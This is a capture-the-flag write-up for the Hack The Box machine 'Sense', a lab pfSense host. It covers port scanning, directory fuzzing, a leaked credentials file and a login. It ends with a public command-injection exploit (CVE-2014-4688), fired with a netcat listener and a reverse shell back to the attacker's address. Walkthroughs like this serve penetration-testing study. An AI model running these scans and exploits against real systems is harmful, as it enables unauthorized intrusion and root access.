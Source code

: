 # Sense

**OS:** FreeBSD

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/sense)  [2](https://app.hackthebox.com/machines/Sense)

**Machine ip:** 10.10.10.60

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e379c135-5e25-4ae9-abb1-13ee23189ff6)


# Sections
+ [Enumeration](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/09_Sense.md#enumeration)
+ [Privilege Escalation](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/09_Sense.md#privilege-escalation)
+ [Links](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/09_Sense.md#links)


## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.60 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.60`

+ 2 ports are open which are 80 and 443:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6749553f-08d1-460f-aad6-1fbb09ae51ea)

+ Port 80 redirects to port 443 so we really only have one port to enumerate.
+ Navigate to `https://10.10.10.60/`
+ pfsense login panel.
+ Try [pfsense](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html) default username and password.
+ Try brute force trial and errors.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d249333a-0934-4e18-a2ff-d8eeb457d36c)

+ No works, and continue with directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60/ -k -n -x html,php,txt -t 50
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9a9704e1-f08a-4337-8340-8807b3a9efb4)

+ **system-users.txt** and changelog.txt are interesting, and check them out.
+ Navigate to `https://10.10.10.60/system-users.txt` and `https://10.10.10.60/changelog.txt`
```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6601d0fd-d8aa-440c-b85e-eb1598afba6e)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cd931495-72f9-4c8f-b47b-d3f125ba4868)

+ Login pfsense using credentials `rohit`:`pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/97eb08bc-2825-44a1-a5ba-897c186d2689)

+ See that version is **2.1.3**


## Privilege Escalation

+ View any vulnerabilities that pfsense is associated with : `searchsploit pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d1945b44-4ad0-402f-add2-f2206ebf4ad8)

+ For more perspective: https://sploitus.com

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0e8107b4-dc87-45ac-b91e-5f8fdbf561ee)

+ pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection: [CVE-2014-4688](https://www.exploit-db.com/exploits/43560)
+ Check the vulnerability what's doing.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ff6726fb-505d-4fd4-90a8-460f9d7a5549)

+ Transfer the exploit: `searchsploit -m 43560`
+ Start listener: `nc -lnvp 5555`
+ `python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.7 --lport 5555 --username rohit --password pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d6f35b34-e308-432b-8f48-3756e6010eba)

+ Get root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/35e0d755-020d-4e1f-92e6-e8405893a3c0)


# Links

# References & Alternatives
+ https://vvmlist.github.io/#sense
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/sense-writeup-w-o-metasploit
+ https://0xdf.gitlab.io/2021/03/11/htb-sense.html
+ https://benheater.com/hackthebox-sense/
+ https://xavilok.es/posts/Sense.php
+ https://ethicalhacs.com/sense-hackthebox-walkthrough/
+ https://v3ded.github.io/ctf/htb-sense
+ https://medium.com/@andr3w_hilton/htb-sense-walkthrough-6236970644c1
